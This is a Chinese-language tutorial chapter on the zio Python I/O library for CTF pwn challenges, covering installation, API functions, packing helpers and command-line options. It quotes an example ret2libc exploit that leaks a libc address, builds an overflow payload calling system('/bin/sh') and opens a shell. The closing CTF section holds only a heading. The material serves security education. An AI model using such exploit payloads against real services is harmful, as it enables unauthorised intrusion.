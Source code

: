 # 4.6 zio

- [zio 简介](#zio-简介)
- [安装](#安装)
- [使用方法](#使用方法)
- [zio 在 CTF 中的应用](#zio-在-CTF-中的应用)


## zio 简介
[zio](https://github.com/zTrix/zio) 是一个易用的 Python io 库，在 Pwn 题目中被广泛使用，zio 的主要目标是在 stdin/stdout 和 TCP socket io 之间提供统一的接口，所以当你在本地完成 利用开发后，使用 zio 可以很方便地将目标切换到远程服务器。

zio 的哲学：
```python
from zio import *

if you_are_debugging_local_server_binary:
    io = zio('./buggy-server')          # used for local pwning development
elif you_are_pwning_remote_server:
    io = zio(('1.2.3.4', 1337))         # used to exploit remote service

io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

官方示例：
```python
from zio import *
io = zio('./buggy-server')
# io = zio((pwn.server, 1337))

for i in xrange(1337):
    io.writeline('add ' + str(i))
    io.read_until('>>')

io.write("add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + "A" * 49 + "\nshow\n")
io.read_until('A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = 'A' * 64 + l32(libc_system) + 'JJJJ' + l32(libc_binsh)
io.write('info ' + payload + "\nshow\nexit\n")
io.read_until(">>")
# We've got a shell;-)
io.interact()
```

需要注意的的是，zio 正在逐步被开发更活跃，功能更完善的 pwntools 取代，但如果你使用的是 32 位 Linux 系统，zio 可能是你唯一的选择。


## 安装
zio 仅支持 Linux 和 OSX，并基于 python 2.6, 2.7。
```
$ sudo pip2 install zio
```
`termcolor` 库是可选的，用于给输出上色：`$ sudo pip2 install termcolor`。


## 使用方法
由于没有文档，我们通过读源码来学习吧，不到两千行，很轻量，这也意味着你可以根据自己的需求很容易地进行修改。

总共导出了这些关键字：
```python
__all__ = ['stdout', 'log', 'l8', 'b8', 'l16', 'b16', 'l32', 'b32', 'l64', 'b64', 'zio', 'EOF', 'TIMEOUT', 'SOCKET', 'PROCESS', 'REPR', 'EVAL', 'HEX', 'UNHEX', 'BIN', 'UNBIN', 'RAW', 'NONE', 'COLORED', 'PIPE', 'TTY', 'TTY_RAW', 'cmdline']
```

zio 对象的初始化定义：
```python
def __init__(self, target, stdin = PIPE, stdout = TTY_RAW, print_read = RAW, print_write = RAW, timeout = 8, cwd = None, env = None, sighup = signal.SIG_DFL, write_delay = 0.05, ignorecase = False, debug = None):
```
通常可以这样：
```python
io = zio(target, timeout=10000, print_read=COLORED(RAW,'red'), print_write=COLORED(RAW,'green'))
```

内部函数很多，下面是常用的：
```python
def print_write(self, value):
def print_read(self, value):

def writeline(self, s = ''):
def write(self, s):
 
def read(self, size = None, timeout = -1):
def readlines(self, sizehint = -1):
def read_until(self, pattern_list, timeout = -1, searchwindowsize = None):
 
def gdb_hint(self, breakpoints = None, relative = None, extras = None):

def interact(self, escape_character=chr(29), input_filter = None, output_filter = None, raw_rw = True):
```
zio 里的 `read` 和 `write` 对应到 pwntools 里就是 `recv` 和 `send`。

另外是对字符的拆包解包，是对 struct 库的封装：
```python
>>> l32(0xdeedbeaf)
'\xaf\xbe\xed\xde'
>>> l32('\xaf\xbe\xed\xde')
3740122799
>>> hex(l32('\xaf\xbe\xed\xde'))
'0xdeedbeaf'

>>> hex(b64('ABCDEFGH'))
'0x4142434445464748'
>>> b64(0x4142434445464748)
'ABCDEFGH'
```
`l` 和 `b` 就是指小端序和大端序。这些函数可以对应 pwntools 里的 `p32()`，`p64()`等。

当然你也可以直接在命令行下使用它：
```
$ zio -h

usage:

    $ zio [options] cmdline | host port

options:

    -h, --help              help page, you are reading this now!
    -i, --stdin             tty|pipe, specify tty or pipe stdin, default to tty
    -o, --stdout            tty|pipe, specify tty or pipe stdout, default to tty
    -t, --timeout           integer seconds, specify timeout
    -r, --read              how to print out content read from child process, may be RAW(True), NONE(False), REPR, HEX
    -w, --write             how to print out content written to child process, may be RAW(True), NONE(False), REPR, HEX
    -a, --ahead             message to feed into stdin before interact
    -b, --before            don't do anything before reading those input
    -d, --decode            when in interact mode, this option can be used to specify decode function REPR/HEX to input raw hex bytes
    -l, --delay             write delay, time to wait before write
```


## zio 在 CTF 中的应用
